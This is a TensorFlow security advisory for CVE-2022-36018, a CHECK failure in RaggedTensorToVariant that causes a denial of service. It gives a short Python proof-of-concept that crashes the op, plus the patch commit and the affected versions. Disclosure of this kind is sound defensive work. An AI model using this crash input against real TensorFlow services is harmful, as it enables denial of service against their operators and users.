 ## TFSA-2022-111: `CHECK` fail in `RaggedTensorToVariant`

### CVE Number
CVE-2022-36018

### Impact
If `RaggedTensorToVariant` is given a `rt_nested_splits` list that contains tensors of ranks other than one, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

batched_input = True
rt_nested_splits = tf.constant([0,32,64], shape=[3], dtype=tf.int64)
rt_dense_values = tf.constant([0,32,64], shape=[3], dtype=tf.int64)
tf.raw_ops.RaggedTensorToVariant(rt_nested_splits=rt_nested_splits, rt_dense_values=rt_dense_values, batched_input=batched_input)
```

### Patches
We have patched the issue in GitHub commit [88f93dfe691563baa4ae1e80ccde2d5c7a143821](https://github.com/tensorflow/tensorflow/commit/88f93dfe691563baa4ae1e80ccde2d5c7a143821).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
